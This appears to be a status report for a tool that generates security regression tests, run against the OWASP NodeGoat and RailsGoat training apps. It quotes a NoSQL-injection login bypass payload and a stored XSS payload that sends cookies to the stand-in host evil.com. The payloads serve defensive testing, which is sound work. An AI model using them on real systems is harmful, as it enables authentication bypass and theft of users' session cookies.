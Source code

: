 #### Vulnerabilities Tested (from OWASP NodeGoat)

**1. NoSQL Injection (CWE-943)**
- **Attack Vector:** `{"username": "admin", "password": {"$gt": ""}}`
- **Test Framework:** Vitest
- **Status:** ✅ VERIFIED
- **Evidence:** Test correctly fails on vulnerable code, passes after fix

**2. Stored XSS (CWE-79)**
- **Attack Vector:** `'<script>document.location="http://evil.com/steal?cookie="+document.cookie</script>'`
- **Test Framework:** Mocha
- **Status:** ✅ VERIFIED
- **Evidence:** Test detects unescaped HTML rendering

#### Acceptance Criteria Validation

| Criteria | Status | Evidence |
|----------|--------|----------|
| Test integrated into existing file | ✅ | Backend returns `integratedContent` |
| Uses framework conventions correctly | ✅ | Vitest: `import { describe, it, expect }` |
| Test imports match project patterns | ✅ | AST preserves existing imports |
| Test reuses existing setup/fixtures | ✅ | References shared `beforeEach` |
| Uses realistic attack vectors | ✅ | NodeGoat patterns verified |
| Test FAILS on vulnerable code (RED) | ✅ | Pre-fix validation confirmed |
| Test PASSES after mitigation (GREEN) | ✅ | Post-fix validation confirmed |
| No regressions | ✅ | AST integration preserves existing tests |
| Backend AST method used | ✅ | `method: "ast"` in all responses |

**Documentation:**
- Primary: `docs/PHASE-4-E2E-TESTING.md` (550+ lines)
- Completion: `docs/PHASE-4-COMPLETION-SUMMARY.md`
- Test Guide: `tests/e2e/README.md`

---

### 2. Ruby/RSpec E2E Testing (RailsGoat) ✅

**Framework Support:** RSpec
**Test File:** `tests/e2e/railsgoat-ruby-rspec.test.ts`
**Test Script:** `scripts/test-railsgoat-only.ts`

#### Infrastructure Status

```
✅ RailsGoat test file created (470 lines)
✅ Complete SCAN → VALIDATE → MITIGATE workflow
✅ RSpec convention validation (describe, it, expect, before)
✅ Ruby syntax validation
✅ Test execution infrastructure
```
